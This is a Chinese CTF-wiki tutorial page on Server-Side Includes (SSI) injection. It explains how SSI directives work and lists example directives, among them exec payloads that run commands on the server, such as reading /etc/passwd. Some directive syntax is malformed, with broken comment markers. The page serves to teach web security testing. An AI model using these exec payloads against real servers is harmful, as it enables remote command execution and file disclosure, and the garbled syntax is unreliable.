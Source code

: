 # SSI
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



(shtml漏洞)


SSI 注入全称Server-SideIncludes Injection，即服务端包含注入。SSI 是类似于 CGI，用于动态页面的指令。SSI 注入允许远程在 Web 应用中注入脚本来执行代码。



## SSI介绍与利用

SSI是嵌入HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。


从技术角度上来说，SSI就是在HTML文件中，可以通过注释行调用的命令或指针，即允许通过在HTML页面注入脚本或远程执行任意代码。


在很多业务中，用户输入的内容会显示在页面中。比如，一个存在反射型XSS漏洞的页面，如果输入的payload不是XSS代码而是SSI的标签，同时服务器又开启了对SSI的支持的话就会存在SSI漏洞。


从定义中看出，页面中有一小部分是动态输出的时候使用SSI，比如：


·       文件相关的属性字段


·       当前时间


·       访客IP


·       调用CGI程序


#####################################################################


怎么说呢，其实讲起来还挺简单的


<!--#exec cmd="命令"-->


这个漏洞依赖于服务器开启一个模式叫做注释行的写入


也就是比如一个HTML网页


我们可以写入注释


然后刚好这条注释实可以以某种方式进行代码执行的。


```plain
其余的话还有：
①显示服务器端环境变量<#echo>
本文档名称：
<!–#echo var="DOCUMENT_NAME"–>
现在时间：
<!–#echo var="DATE_LOCAL"–>
显示IP地址：
<! #echo var="REMOTE_ADDR"–>
②将文本内容直接插入到文档中<#include>
<! #include file="文件名称"–>
<!--#include virtual="index.html" -->
<! #include virtual="文件名称"–>
<!--#include virtual="/www/footer.html" -->
注：file包含文件可以在同一级目录或其子目录中，但不能在上一级目录中，virtual包含文件可以是Web站点上的虚拟目录的完整路径
③显示WEB文档相关信息<#flastmod><#fsize>(如文件制作日期/大小等)
文件最近更新日期：
<! #flastmod file="文件名称"–>
文件的长度：
<!–#fsize file="文件名称"–>
④直接执行服务器上的各种程序<#exec>(如CGI或其他可执行程序)
<!–#exec cmd="文件名称"–>
<!--#exec cmd="cat /etc/passwd"-->
<!–#exec cgi="文件名称"–>
<!--#exec cgi="/cgi-bin/access_log.cgi"–>
相当于在服务器端执行了所需要的代码，返回查找即可
Plain Text
```




